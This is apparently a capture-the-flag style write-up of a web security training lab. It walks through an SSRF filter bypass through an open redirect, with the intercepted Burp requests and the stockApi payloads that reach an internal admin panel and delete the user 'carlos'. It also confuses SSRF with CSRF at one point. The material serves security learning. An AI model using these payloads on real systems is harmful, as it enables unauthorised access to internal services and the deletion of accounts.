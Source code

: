 
## Intercepting the main stock-fetch request in BurpSuite

```http 

POST /product/stock HTTP/2
Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

```

> with 'urlencode' extension


	stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>


>I need to bypass regular CSRF protection.
>On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)


	GET /product/nextProduct?currentProductId=15&path=/product?productId=16 HTTP/2
	Host: 0a9e004c0393e4df8052ad46005c008a.web-security-academy.net
	Cookie: session=****
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Referer: https://0a9e004c0393e4df8052ad46005c008a.web-security-academy.net/product?productId=15
	Upgrade-Insecure-Requests: 1
	Sec-Fetch-Dest: document
	Sec-Fetch-Mode: navigate
	Sec-Fetch-Site: same-origin
	Sec-Fetch-User: ?1
	Priority: u=0, i
	Te: trailers


> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/” in main reqeust
> and receive a response with access to the admin panel.

	stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

> I access the admin panel and users.

![Access Admin panel](./screenshots/access_admin_panel.png)

> I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'
 
	stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>

![Solved lab](./screenshots/solved_lab.png)
